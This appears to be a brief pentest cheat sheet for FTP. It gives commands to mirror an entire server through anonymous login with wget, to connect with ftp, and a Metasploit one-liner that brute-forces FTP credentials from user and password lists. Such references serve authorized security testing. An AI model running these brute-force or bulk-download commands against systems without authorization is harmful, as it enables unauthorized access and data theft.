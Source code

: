 # FTP

% ftp, 21
#plateform/linux  #target/remote  #port/21 #protocol/ftp 

## ftp - download all 
#cat/ATTACK/FILE_TRANSFERT 
```
wget -m ftp://anonymous:anonymous@<ip>
```

## ftp download all (2)
#cat/ATTACK/FILE_TRANSFERT
```
wget -m --no-passive ftp://anonymous:anonymous@<ip>
```

## ftp - connect
#cat/ATTACK/CONNECT
```
ftp <ip>
```

## ftp - connect port
#cat/ATTACK/CONNECT
```
ftp <ip> <port>
```


## ftp - msf bruteforce login
#cat/ATTACK/BRUTEFORCE-SPRAY
```
msfconsole -x "use auxiliary/scanner/ftp/ftp_login; set RHOSTS <ip>; set USER_FILE <user_file>; set PASS_FILE <password_file>; exploit"
```

